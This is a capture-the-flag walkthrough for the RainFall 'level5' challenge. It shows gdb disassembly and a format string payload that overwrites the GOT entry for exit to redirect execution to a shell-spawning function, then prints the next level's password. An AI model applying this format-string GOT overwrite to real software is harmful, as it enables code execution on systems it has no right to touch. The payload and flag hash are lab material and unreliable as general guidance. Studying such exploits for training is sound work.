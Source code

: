 # Walkthrough level5

Here this is a format string exploitation to [override the GOT](https://medium.com/zh3r0/intro-to-pwn-protostar-format-strings-c86ca3458ad3) (Global Offset Table) with the "o" function address. GOT stores standard function addresses.
We need to locate the address where the function "exit" and "o" are located. "Exit" address is "0x8049838" and "o" address is "0x080484a4".

```bash
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
=> 0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.

(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
=> 0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.


(gdb) disas o
Dump of assembler code for function o:
=> 0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

We must write "o" address "0x080484a4" at "exit" address "0x8049838". The same technique is used as in levels 3 and 4.

```bash
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/level5
level4@RainFall:~$ cat /tmp/level5 - | ./level5
(...)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

level5@RainFall:~$ python -c "print '\x38\x98\x04\x08' '%x08' * 2 + '%134513805d%n'" > /tmp/level5
level4@RainFall:~$ cat /tmp/level5 - | ./level5
(...)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
